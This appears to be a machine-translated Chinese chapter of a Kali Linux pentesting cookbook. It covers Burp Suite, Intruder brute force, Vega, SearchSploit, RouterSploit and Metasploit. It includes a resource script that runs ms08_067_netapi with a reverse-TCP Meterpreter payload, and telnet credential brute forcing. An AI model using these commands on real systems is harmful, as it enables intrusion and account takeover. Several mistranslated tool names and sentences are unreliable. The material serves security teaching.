# 三、漏洞评估

在本章中，我们将介绍以下配方：

*   使用臭名昭著的打嗝
*   利用 Wsdler 利用 wsdl
*   使用入侵者
*   使用 Vega 的 Web 应用 pentest
*   探索搜索引擎
*   利用 RouterSploit 利用路由器
*   使用 Metasploit
*   自动化 Metasploit
*   编写自定义资源脚本
*   Metasploit 中的数据库

# 介绍

在前几章中，我们介绍了收集目标信息的各种方法。现在，一旦我们掌握了所有这些数据，我们就需要开始寻找漏洞。要成为一名优秀的 pentester，我们需要确保不忽略任何小细节。

# 使用臭名昭著的打嗝

打嗝已经存在多年了；它是 PortSwigger web security 在 Java 中构建的多个工具的集合。它有多种产品，如解码器、代理、扫描仪、入侵者、中继器等。Burp 具有一个扩展器，它允许用户加载不同的扩展，可以用来使 pentesting 更加高效！您将在接下来的食谱中了解其中一些。

# 怎么做。。。

让我们来看看如何有效地使用嗝：

1.  Kali 已经有了 Burp 的免费版本，但是我们需要一个完整的版本来充分利用它的功能。因此，我们打开打嗝：


2.  单击开始打嗝，我们将看到打嗝加载：


3.  在我们开始寻找 bug 之前，我们首先安装一些可能会派上用场的扩展。从扩展器菜单中选择 BApp 存储：


4.  我们将看到一个扩展列表。我们必须安装的一些扩展如下：
    *   J2EEScan
    *   维斯德勒
    *   Java 反序列化扫描器
    *   心痛
5.  选择每个扩展后，单击 Install。

6.  一旦扩展都设置好了，我们就准备扫描。我们启动浏览器并转到其首选项：


7.  在网络设置中，我们添加 HTTP 代理 IP 和端口：



8.  我们可以通过代理菜单下的 Burp 选项选项卡验证这一点：


9.  单击 Intercept（截取）以开始截取请求：


10.  现在我们浏览需要扫描的网站。
11.  一旦捕获了所有请求，我们就可以简单地转到目标并选择我们的域。

12.  要执行扫描，我们可以选择单个请求并发送它们进行活动扫描：


13.  或者，我们可以选择整个域进行活动扫描：


14.  将请求发送到扫描仪后，我们将转到“扫描仪”选项卡并选择“选项”。在这里，我们实际上可以告诉扫描仪我们希望它在我们的应用中查找什么：



15.  我们可以在扫描队列选项卡中看到扫描结果：


16.  扫描队列选项卡可在以下屏幕截图中看到：



以下屏幕截图更详细地显示了“扫描队列”选项卡的结果：



虽然我们在这里只使用了一些扩展，但您也可以查看整个列表并选择自己的扩展。扩展很容易设置。

# 利用 Wsdler 利用 wsdl

**Web 服务描述语言**（**WSDL**是一种基于 XML 的语言，用于描述 Web 服务提供的功能。通常，在执行 pentest 项目时，我们可能会在未经验证的开放环境中找到 WSDL 文件。在本食谱中，我们将了解如何从 WSDL 中获益。

# 怎么做。。。

我们在 Burp 中拦截 WSDL 请求：

1.  右键单击请求并选择 Parse WSDL:



2.  切换到 Wsdler 选项卡，我们将看到所有服务调用。我们可以通过单击其中任何一个来查看完整的请求：


3.  为了能够使用它，我们需要将其发送到中继器：


4.  我们右键单击并选择发送到中继器：



5.  在我们的例子中，我们可以看到，只引用一个引号会导致错误。瞧！我们有 SQL 注入的可能性！


以下屏幕截图显示了 SQL 注入：


在本书后面的章节中，您将了解更多关于利用 SQL 的信息。

# 使用入侵者

入侵者是一个伟大的工具，它允许我们执行不同类型的攻击，可以用来发现各种漏洞。入侵者可以执行的一些最常见的攻击如下：

*   蛮力
*   起毛
*   列举
*   应用层 DoS

# 怎么做。。。

我们开始从捕获的请求中提取请求：

1.  右键单击请求并选择发送到入侵者：


2.  切换到入侵者选项卡。我们需要指定有效负载位置，我们可以通过选择所需位置或选择有效负载并单击添加按钮来实现：


3.  在本例中，由于我们正在执行登录暴力，我们将使用攻击类型 Pitchfork：


4.  接下来，我们切换到“有效载荷”选项卡。我们将在此处输入有效载荷：



5.  我们选择集合 1，当我们进行暴力攻击时，我们可以选择一个简单的列表作为有效负载类型。
6.  在有效负载选项中，我们指定要测试应用的单词列表。我们可以手动输入，也可以选择预构建列表：



7.  现在，我们选择 set 2 并再次指定希望工具尝试的密码列表：


8.  Burp 允许我们通过配置线程数、选择重定向选项甚至选项选项卡中的 Grep-Match 选项来定制攻击：


9.  我们点击开始攻击：



10.  将弹出一个新窗口，显示所执行攻击的所有结果。

在这里，我们只使用了一种攻击模式（干草叉）。可以在[了解入侵者的不同攻击模式 https://nitstorm.github.io/blog/burp-suite-intruder-attack-types/](https://nitstorm.github.io/blog/burp-suite-intruder-attack-types/) 。

# 使用 Vega 的 Web 应用 pentest

Vega 是 Java 内置的开源 web 应用测试工具。它有一个基于 JavaScript 的 API，这使得它更加强大和灵活。在下面的配方中，Vega 非常容易使用，您将学习如何使用它执行扫描。

# 准备

有些 Kali 版本没有安装 Vega，但可以使用以下命令安装：

```
apt-get install vega  
```

# 怎么做。。。

1.  Vega 内置于 Kali 中，可以使用以下命令启动：

```
 vega 
```

前面的命令打开 Vega 工具：


2.  在 Vega 中，有两种方式可以通过选择扫描仪模式或代理模式来启动扫描。我们在这里查看扫描仪模式。

3.  我们从扫描菜单中选择开始新扫描选项：


4.  在窗口中，我们输入网站 URL 并单击下一步：


5.  然后，我们可以选择要运行的模块：


6.  在此步骤中，我们可以输入 cookies：



7.  接下来，我们指定是否要排除任何参数，然后单击 Finish：


8.  我们可以在左侧窗格中看到结果和漏洞：



9.  单击警报可向我们显示详细信息：


10.  与 Burp 类似，Vega 还具有代理功能，我们也可以手动拦截和分析请求！
11.  我们可以编辑和重播请求以执行手动检查：


# 探索搜索引擎

SearchSploit 是一个命令行工具，允许我们搜索和浏览`exploitdb`上的所有可用漏洞。

# 怎么做。。。

1.  要查看帮助，请键入以下命令：

```
    searchsploit -h
```

以下屏幕截图显示了前面命令的输出：



2.  我们只需输入关键字即可执行搜索，如果要将漏洞复制到我们的工作目录中，我们将使用以下方法：

```
     searchsploit -m exploitdb-id
```

以下屏幕截图是上述命令的示例：


# 利用 RouterSploit 利用路由器

RouterSploit 是一个专门为嵌入式设备设计的路由器利用框架。它包括三个主要模块：

*   `exploits`：包含所有公开可用漏洞的列表
*   `creds`：用于测试不同设备的登录情况
*   `scanners`：用于检查针对特定设备的特定漏洞

# 准备

在开始之前，我们必须在卡利安装 RouterSploit；不幸的是，它并没有随操作系统的正式安装而来。RouterSploit 安装非常简单，就像我们在本书开头安装了一些工具一样。

# 怎么做。。。

1.  我们使用以下命令克隆 GitHub 存储库：

```
      git clone https://github.com/reverse-shell/routersploit
```

2.  我们使用`cd routersploit`命令进入目录，并按如下方式运行文件：

```
      ./rsf.py  
```

以下截图显示了*步骤 1*的输出：


3.  要对路由器进行攻击，只需键入以下内容：

```
      use exploits/routername/exploitname
```

以下屏幕截图显示了上述命令的示例：


4.  现在我们看到了可用于我们选择的漏洞利用的选项。我们使用以下命令：

```
      show options
```

以下屏幕截图显示了前面命令的输出：


5.  我们使用以下命令设置目标：

```
      set target 192.168.1.1
```

以下屏幕截图显示了前面命令的输出：


6.  要利用此漏洞，我们只需键入`exploit`或`run`：


# 使用 scanners 命令

以下步骤演示了`scanners`的使用：

1.  要扫描 Cisco 路由器，我们使用以下命令：

```
 use scanners/cisco_scan
```

2.  我们现在检查其他选项：

```
 show options
```

以下屏幕截图显示了前面命令的输出：



3.  要针对目标运行扫描，我们首先设置目标：

```
 set target x.x.x.x
```

以下屏幕截图显示了前面命令的输出：


4.  现在我们运行它，它将显示路由器易受攻击的所有漏洞：


# 使用信条

这可用于通过字典攻击测试服务上的默认密码组合：

1.  我们使用`creds`命令对各种服务运行字典攻击：

```
      use creds/telnet_bruteforce 
```

以下屏幕截图显示了前面命令的输出：


2.  接下来，我们看一下选项：

```
      show options
```

以下屏幕截图显示了前面命令的输出：


3.  现在我们设置目标 IP：

```
      set target x.x.x.x
```

4.  我们让它运行，它会显示它找到的任何登录名。


# 使用 Metasploit

Metasploit 是 pentesting 中使用最广泛的开源工具。它于 2001 年由 HD Moore 在 Perl 中首次利用；后来，它被完全用 Ruby 重写，然后被 Rapid7 收购。

Metasploit 包含一组利用漏洞、有效负载和编码器，可用于在 pentest 项目期间识别和利用漏洞。在本章中，我们将介绍一些能够更有效地使用**Metasploit 框架**（**MSF**）的方法。

# 怎么做。。。

以下步骤演示了 MSF 的使用：

1.  通过键入以下命令启动 MSF：

```
        msfconsole
```

以下屏幕截图显示了前面命令的输出：


2.  要搜索漏洞，请键入以下内容：

```
        search exploit_name
```

以下屏幕截图显示了前面命令的输出：


3.  要使用漏洞攻击，请键入以下内容：

```
        use exploits/path/to/exploit  
```

以下屏幕截图显示了前面命令的输出：


4.  接下来，我们通过键入以下内容查看选项：

```
        show options  
```

5.  在这里，我们需要为反向连接设置负载、目标 IP、本地主机和端口。
6.  我们使用以下方法设定目标：

```
        set RHOST x.x.x.x  
```

7.  我们使用以下方法设置有效负载：

```
 set payload windows/meterpreter/reverse_tcp  
```

8.  接下来，我们设置需要连接的`lhost`和`lport`：

```
 set lhost x.x.x.x
 set lport 4444
```

9.  现在，我们运行“利用漏洞”命令：

```
        exploit  
```

10.  成功利用后，我们将查看一个`meterpreter`会话：



虽然我们在这里只使用了 Windows`reverse_tcp`，但 Metasploit 还有许多其他有效负载，这取决于所使用的后端操作系统或 web 应用。有效载荷的完整列表见[https://www.offensive-security.com/metasploit-unleashed/msfpayload/](https://www.offensive-security.com/metasploit-unleashed/msfpayload/) 。

# 自动化 Metasploit

Metasploit 以不同的方式支持自动化。我们将在这里介绍的一种方法是资源脚本。

**资源脚本**基本上是一组在加载脚本时自动运行的命令。Metasploit 已经包含一组预构建的脚本，这些脚本在企业测试环境中被证明是最有用的。可用脚本的完整列表可在`/usr/share/metasploit-framework/scripts/resource`目录中查看：


# 怎么做。。。

以下步骤演示了 Metasploit 的自动化：

1.  我们使用以下命令启动 Metasploit：

```
        msfconsole 
```

前面命令的输出显示在以下屏幕截图中：


2.  有些脚本需要全局设置`RHOSTS`，所以我们使用以下命令设置`RHOSTS`：

```
        set RHOSTS 172.18.0.0/24 
```

前面命令的输出显示在以下屏幕截图中：


3.  现在，我们使用以下命令运行脚本：

```
        resource /usr/share/metasploit-framework
        /scripts/resource/basic_discovery.rc
```

4.  此脚本将在提供的子网上执行基本主机发现扫描：


# 编写自定义资源脚本

在下面的食谱中，我们将了解如何编写基本脚本。

# 怎么做。。。

按照给定的步骤编写基本脚本：

1.  我们可以打开任何编辑器-`nano`、`leafpad`等等。
2.  在这里，我们键入希望 MSF 执行的所有命令：

```
     use exploit/windows/smb/ms08_067_netapi
     set payload windows/meterpreter/reverse_tcp
     set RHOST 192.168.15.15
     set LHOST 192.168.15.20
     set LPORT 4444
     exploit -j
```

3.  我们使用`.rc`扩展名保存脚本：



4.  现在我们启动`msfconsole`并键入命令自动利用机器：


资源脚本只是自动化 Metasploit 的一种方法；在本文的[中，您可以了解其他自动化 Metasploit 的方法 https://community.rapid7.com/community/metasploit/blog/2011/12/08/six-ways-to-automate-metasploit](https://community.rapid7.com/community/metasploit/blog/2011/12/08/six-ways-to-automate-metasploit) 。

# Metasploit 中的数据库

在 Kali Linux 中，我们必须在使用数据库功能之前设置一个数据库。

# 怎么做。。。

以下步骤演示了数据库的设置：

1.  首先，我们使用以下命令启动`postgresql`服务器：

```
        service postgresql start  
```

以下屏幕截图显示了前面命令的输出：


2.  然后，我们创建并初始化数据库：

```
        msfdb init  
```

3.  完成后，我们加载`msfconsole`。现在，我们可以在 Metasploit 中创建和管理工作区。工作区可以被视为一个空间，在这里我们可以通过分类保存所有的 Metasploit 数据。要设置新的工作区，我们使用以下命令：

```
        workspace -a workspacename
```

以下屏幕截图显示了前面命令的输出：


4.  要查看与工作区相关的所有命令，我们可以执行以下操作：

```
 workspace -h  
```

5.  现在我们已经设置了数据库和工作区，我们可以使用各种命令与数据库交互。
6.  要将现有 Nmap 扫描导入数据库，我们使用以下命令：

```
        db_import  path/to/nmapfile.xml
```

以下屏幕截图显示了前面命令的输出：


7.  导入完成后，我们可以使用以下命令查看主机：

```
 hosts
```

以下屏幕截图显示了前面命令的输出：


8.  要仅查看 IP 地址和操作系统类型，我们使用以下命令：

```
        hosts -c address,os_flavor
```

以下屏幕截图显示了前面命令的输出：


9.  现在假设我们要执行 TCP 辅助扫描。我们也可以将所有这些主机设置为辅助主机的`RHOSTS`。我们使用以下命令执行此操作：

```
        hosts -c address,os_flavor -R  
```

以下屏幕截图显示了前面命令的输出：


10.  由于`RHOSTS`已经设置，它们可以跨 Metasploit 用于所需的任何模块。
11.  让我们再看一个例子，其中导入的 Nmap 扫描已经包含了我们需要的所有数据。我们可以使用以下命令列出数据库中的所有服务：

```
        services
```

12.  要仅查看正在运行的服务，我们可以使用`-u`开关：



13.  我们甚至可以通过`-p`交换机查看特定端口的列表：

